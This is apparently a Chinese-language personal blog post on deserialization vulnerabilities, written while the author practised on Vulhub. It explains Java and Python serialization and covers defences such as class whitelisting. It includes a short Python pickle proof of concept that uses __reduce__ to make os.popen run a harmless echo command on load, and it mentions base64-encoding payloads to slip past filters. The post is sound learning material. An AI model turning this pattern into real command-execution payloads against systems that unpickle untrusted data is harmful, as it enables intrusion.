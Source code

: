 ```yaml
---

layout: post

title: "Vulhub 2 反序列化"

author: "markt"

---
```




复现fastjson试了半天还是显示报错，真的佛了。可能我这辈子跟JAVA过不去吧。。后来又试了一个JBoss 的典型反序列化，直接用现成的工具也很无聊。之后研究了一下Python的反序列化还是蛮有意思的。

## 反序列化漏洞的定义

所谓的序列化，简答来说就是把对象存储成数据的一种方式，目前在JAVA中最常见。而反序列化就是从数据中读取对象。而在反序列化的过程中，若是构造恶意的方法被当作正常对象的方法执行，便有了反序列化的漏洞。

举一个简单场景的例子，客户端以json的形式把一个对象实例传向服务端，如果json的数据被修改，那么原有对象的方法就会变成恶意方法。

不论是什么语言，如果有这样的需求，那么很显然都会有对象被篡改的危险。其中以java最常见，php次之，python什么的都还很少见。java中是ObjectInputStream 类的readObject（需要实现`Serializable`接口），python中是`__reduce__`。简单来说，反序列化漏洞的关键在于重载对应的方法，即上述两种语言对应的方法。

知道了核心之后，另外需要注意的部分除了绕过黑名单（如果有的话），就是对payload的处理了——将payload转换成base64避免不支持管道符等字符。

## 一个不规范的python反序列化漏洞POC：

```
import pickle
import os
class a(object):
    def __reduce__(self):
        payload = """echo adas1 > e1 """
        return (os.popen,(payload,))
aa = a()
def w2f(aa=aa):
    with open('d','wb') as f:
        p = pickle.dump(aa,f)
        print('save to file:',type(aa),aa)

def r2f(aa=aa):
    with open('d','rb') as f:
        b = pickle.load(f)
        print('load from file:',type(b),b)
        b.s()
    return b
#import pdb;pdb.set_trace()
p = pickle.dumps(aa)
pickle.dump(aa,open('w2','wb'))
#print(p)
with open('w1','wb') as f:
    pp = f.write(p)
#print(pp,type(pp))
e = pickle.loads(p)
print(e,type(e))


```

## 防御

说到防御，最简单粗暴的还是白名单过滤危险的方法吧。

以下是百度到的：

> **1. 类白名单校验**
>
> 在 ObjectInputStream 中 resolveClass 里只是进行了 class 是否能被 load ，自定义 ObjectInputStream , 重载 resolveClass 的方法，对 className 进行白名单校验
>
> **2. 禁止 JVM 执行外部命令 Runtime.exec**
>
> 通过扩展 SecurityManager 可以实现.

## 参考链接

[深入理解 JAVA 反序列化漏洞](https://paper.seebug.org/312/)

[Python Pickle的任意代码执行漏洞实践和Payload构造](http://www.polaris-lab.com/index.php/archives/178/)

[掌阅iReader某站Python漏洞挖掘](https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html)